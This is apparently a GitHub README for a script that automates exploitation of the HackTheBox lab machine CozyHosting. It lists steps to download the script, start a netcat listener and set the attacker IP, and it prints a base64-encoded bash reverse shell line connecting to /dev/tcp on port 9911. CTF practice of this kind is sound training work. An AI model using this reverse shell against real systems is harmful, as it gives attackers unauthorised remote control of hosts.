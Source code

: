 # machine_automations

## [CozyHosting](https://app.hackthebox.com/machines/CozyHosting) HackTheBox
This is a simple rated machine on HackTheBox. 
To use the script;
1. Download the script using:
 ```bash
 wget https://raw.githubusercontent.com/goretti16kate/machine_automations/master/cozyhosting.py
 ```
 2. Open your netcat(nc) listener:
 ```bash
 nc -nlvp 9911
 ```
 3. Modify the script to contain your ip address on line 55:
 ```python
encoded=os.system("echo 'bash -i >& /dev/tcp/10.10.14.55/9911 0>&1'| base64 -w 0 > encoded.txt") # CHANGE IP HERE

 ```
 4. Run the script
 ```bash
 python3 cozyhosting.py
 ```

To better understand the process, [visit my walkthrough on medium]()


### Happy Hacking :-)

 ---